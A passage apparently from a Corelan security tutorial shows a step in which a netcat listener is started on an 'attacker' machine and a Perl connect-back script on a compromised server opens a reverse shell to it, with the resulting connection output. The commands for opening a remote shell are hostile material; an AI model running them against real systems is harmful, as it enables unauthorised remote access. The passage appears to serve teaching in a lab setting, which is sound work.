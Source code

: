 
=>

[![image](../../../_resources/50f06a96398145d0ab6a6039c491e0f2.png "image")](https://www.corelan.be/wp-content/uploads/2010/05/image26.png)

**Step 3 :**

First, set up a netcat listener on my “attacker” machine :

```
nc -lvp 4455
```

Next, ran the following command on the server :

perl /var/lock/corelanshell.pl 192.168.6.114 4455 :

[![image](../../../_resources/30001a74a4494900b386ac6444acd1db.png "image")](https://www.corelan.be/wp-content/uploads/2010/05/image27.png)

Result :

```
root@krypt2:/vpn/70# nc -lvp 4455             
listening on [any] 4455 ...
connect to [192.168.6.114] from (UNKNOWN) [192.168.6.66] 56073
:: Depth :: Connect Back Shell ::
```
